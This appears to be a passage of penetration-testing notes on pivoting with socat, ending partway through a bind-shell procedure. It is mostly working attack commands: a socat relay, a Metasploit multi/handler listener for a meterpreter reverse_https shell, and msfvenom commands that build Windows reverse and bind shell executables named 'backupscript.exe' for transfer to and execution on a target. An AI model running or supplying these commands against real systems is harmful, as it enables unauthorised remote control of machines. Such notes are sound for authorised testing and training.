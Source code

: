 ## Socat 

### Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.

It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

Starting Socat Listener in our attacker machine:

```shell-session
# Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (192.64.166.3).
socat TCP4-LISTEN:8080,fork TCP4:192.64.166.3:80
# the fork option tells socat to create a new child process for each incoming connection.
```

Configuring & Starting the multi/handler. Starting a listener on our attacked host:

```shell-session
sudo msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run
```

Create a windows payload

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.64.147.2 -f exe -o backupscript.exe LPORT=8080
```

Keep in mind that we must transfer this payload to the Windows host (192.182.147.3) and execute it to obtain the reverse shell.

### Socat Redirection with a Bind Shell

Attacker machine: 192.64.166.2
Attacked machine 1: 
	- 192.64.166.3: A listener in port 8080 that forwards all from 192.182.147.3:8443
	- 192.182.147.2: 
Attacked machine 2:
	- 192.182.147.3:  A listener in port 8443


**1.** Create a bind shell with the windows payload using msfvenom from our attacker machine:

```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

**2.** Start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443. **We do this from the attacked machine 1**.
